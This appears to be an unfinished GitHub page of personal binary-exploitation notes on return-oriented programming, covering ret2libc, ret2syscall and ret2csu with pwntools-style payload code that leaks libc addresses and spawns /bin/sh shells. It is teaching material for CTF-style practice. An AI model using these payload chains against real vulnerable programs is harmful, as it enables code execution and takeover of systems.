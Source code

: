 
### in progress


ROP
	what is ROP
	how to find Gadgets (ropper)
	how to find Strings in an ELF	
	how to pivote the Stack
	
<details>
    <summary>ret2libc (dynamically linked ELF)</summary>
        <div>


```
		to use ret2libc we need to know two things
	
		1. the exact libc version the ELF uses
		2. the base addr of libc in the process
		

		to find the exact version of libc we can leak some GOT entrys which stores pointers to the functions in libc. 
		(we also need this for finding the base of libc in the process)

		since we have the ELF file we can do this with ease as the GOT and PLT sections are known to us (asuming PIE is off)

		```	
		payload = b''
		payload += b'A'*0x10			#padding
		payload += p64(pop_rdi)			#set first arg to the addr of puts@GOT
		payload += p64(puts@GOT)		#addr puts@GOT
		payload += p64(puts@PLT)		#call puts@PLT(puts@GOT)
		```

		this payload will print the libc addr of puts() in the current process.

		puts_leak = `leaked addr here`

		ok now ne know the exact addr of puts() in libc but we still dont know which libc version is used.

		we will use a libc database like https://libc.blukat.me/ to find the exact version
		libc.blucat will find the libc based of the last 3 nibbles of the leaked addr siche these will always be the same 

		`last 3 nibbles of leaked addr here` 

		### BILD VON LIBC.BLUCAT.ME einfuegen ###
		
		usually you need to leak more than one libc function addr or the addr of a known string such as "/bin/sh" to find the exact libc version.

		ok we now know the exact libc version now we can download the libc and calculate the offset from puts() to the base addr of libc in the process
		use `vmmap` to find the libc base

		```
		vmmap output here
		```
		
		know_libc_base = `libc base here`		

		offset = puts_leak - known_libc_base 		known_libc_base as it will change next time the ELF file is run (ASLR)
		libc_base = puts_leak - offset

		ok we now know the libc version and the exact libc_base inside the current process.
		now we can use libc functions such as system("/bin/sh") we can setup the args and than simply call it from libc

		1. setup the argument for system(pointer_binsh) 
		2. call the libc function system()

		payload = b''
		payload += b'A'*0x10			#padding
		payload += p64(pop_rdi)			#set first arg to /bin/sh pointer
		payload += p64(pointer_binsh)		#addr of /bin/sh\x00 in mem
		payload += p64(system)			#call the libc system function

```
</div>
</details>

<details>
    <summary>ret2libc (dynamically linked ELF)</summary>
        <div>


# ret2system (statically linked ELF)
```
		`syscall(rax,rdi,rsi,rdx)`	
		we want to call `execve(pointer_binsh,0,0)` to spawn a shell

		so we need to setup a `syscall(execve(pointer_binsh,0,0))`
		
		1. find the syscall number for execve
		2. find a gadget that can write to a pointer like `mov [rdi],rdx`
		3. write b'/bin/sh\x00' to a writable addr.
		4. setup the registers and than syscall

		check this to find syscall numbers `https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit`
		
		we know the syscall number is 0x3b so we want to call `syscall(0x3b,pointer_binsh,0,0)`

		we need a gadget that can write to a pointer so we can store the `/bin/sh\x00` string somewhere
		we can find such a gadget by using `ropper`

		```
		ropper /1/ mov [r??],r??
		```		

		i choose `mov [rdi],rdx` ... somethink like `mov [rax],rdx` would worked too.
		since we have to set rdi = pointer_binsh and `mov [rdi],rdx` directly writes to rdi we saved some gadgets.
		when using `mov [rax],rdx` we have to `mov rdi,rax` afterwards.



		payload = b''
		payload += b'A'*0x10			#padding

		payload += p64(pop_rax)			#set rax to 0x3b
		payload += p64(0x3b)

		payload += p64(pop_rdi)			#set rdi to a .bss addr .bss is usually `rw-`
		payload += p64(.bss)			#addr where we want to write to

		payload += p64(pop_rdx)			#set rdx to `/bin/sh\x00`
		payload += b`/bin/sh\x00`		#be carefull when you set this allways keep the 0x8 byte pad in mind e.g. when you want to call execve with `/bin/cat\x00`
		
		payload += p64(write_gadget)		#writes the content of rdx = `/bin/sh\x00` into the addr rdi = `.bss` points to
		
		payload += p64(pop_rsi)			#set rsi to 0
		payload += p64(0x00)

		payload += p64(pop_rdx)			#set rdx to 0
		payload += p64(0x00)

		payload += p64(syscall)				










```
</div>
</details>

<details>
    <summary>ret2libc (dynamically linked ELF)</summary>
        <div>
		
# ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found   not finished/ in progress
```
		the `__libc_csu_init` function is responsible to initialize libc files.
		in this function there are some interesting gadgets we can use.

		first gadget let us controll some registers with pop
		POPGADGET:

		```
     		__libc_csu_init+90	POP        RBX
        	__libc_csu_init+91	POP        RBP
        	__libc_csu_init+92	POP        R12
        	__libc_csu_init+94 	POP        R13
        	__libc_csu_init+96	POP        R14
	        __libc_csu_init+98 	POP        R15
        	__libc_csu_init+100 	RET
		```
		rbx,rbp,r12,r13,r14,r15
		and this will let us controll rdx,rsi and edi but we need to meet some conditions 
		CALLGADGET:
		```                	 
        	__libc_csu_init+64	MOV        RDX,R14
        	__libc_csu_init+67 	MOV        RSI,R13
        	__libc_csu_init+70 	MOV        EDI,R12D
        	__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
        	__libc_csu_init+77	ADD        RBX,0x1
        	__libc_csu_init+81	CMP        RBP,RBX
        	__libc_csu_init+84	JNE        __libc_csu_init+64
        	__libc_csu_init+86	ADD        RSP,0x8
        	__libc_csu_init+90	POP        RBX
        	__libc_csu_init+91	POP        RBP
        	__libc_csu_init+92	POP        R12
        	__libc_csu_init+94 	POP        R13
        	__libc_csu_init+96	POP        R14
	        __libc_csu_init+98 	POP        R15
        	__libc_csu_init+100 	RET
		```
		there ase some constrains in the caller gadget 
		# 1.
		we want to pass the JNE and dont take it.
		```
		rbx = 0x00 set to 0 since it will be incremented later
		rbp = set to 1 so when compared to the incremented rbx 
		```
			```
			__libc_csu_init+77	ADD        RBX,0x1
        	__libc_csu_init+81	CMP        RBP,RBX
        	__libc_csu_init+84	JNE        __libc_csu_init+64
       	 	
       		```
        # 2
        we want to set r15 = to a valide function 






   	```
	putsgot = elf.got['puts']          
    putsplt = elf.plt['puts']
    pop_rdi = 0x00000000004011f3
    pop_rsi_r15 = 0x00000000004011f1
    ret = 0x4004e6

	def ret2csu(call,rdi,rsi,rdx):
        payload = p64(0x4011ea)         # first call popper gadget

        payload += p64(0x00)            # pop rbx - set to 0 since it will be incremented later
        payload += p64(0x01)            # pop rbp - set to 1 so when compared to the incremented rbx 
        payload += p64(0x400000)       # pop r12 #edi only 4 bytes controll
        payload += p64(rsi)            # pop r13 #rsi
        payload += p64(rdx)            # pop r14 #rdx
        payload += p64(putsgot)            # pop r15 

        payload += p64(0x4011d0)        # 2nd call caller gadget

            #__libc_csu_init+64     MOV        RDX,R14
            #__libc_csu_init+67     MOV        RSI,R13
            #__libc_csu_init+70     MOV        EDI,R12D

        payload += p64(0x00)            # add rsp,0x8 padding cause __libc_csu_init+86  ADD RSP,0x8 


            #__libc_csu_init+90     POP        RBX
            #__libc_csu_init+91     POP        RBP
            #__libc_csu_init+92     POP        R12
            #__libc_csu_init+94     POP        R13
            #__libc_csu_init+96     POP        R14
            #__libc_csu_init+98     POP        R15
            #__libc_csu_init+100    RET

        payload += p64(0x00)            # rbx
        payload += p64(0x00)            # rbp
        payload += p64(0x00)            # r12
        payload += p64(0x00)            # r13
        payload += p64(0x00)            # r14
        payload += p64(0x00)            # r15

            #__libc_csu_init+100    RET

        payload += p64(pop_rdi)        
        payload += p64(rdi)             # update rdi with correct unconstrained content
        payload += p64(pop_rsi_r15)     
        payload += p64(rsi)             # update rsi with correct unconstrained content
        payload += p64(0x00)

            #we now have this registers under controll rdi,rsi,rdx,rbx,rbp,r12,r13,r14,r15

        payload += p64(call)            # actual wanted function call
        return payload

        rop = b'A'*16
        rop += ret2csu(putsplt, 0x7ffff7f735aa, 0x00, 0x00) # call(rdi,rsi,rdx)


	```

For de-randomizing libc, we can use &GOT_TABLE, coupled with some read(), write() or send(), recv() (ie: usually available in CTF challenges)



```
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2csu_gadgets.png">
		
</div>
</details>






# BROP 

# SROP
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/sigret_frame.png">
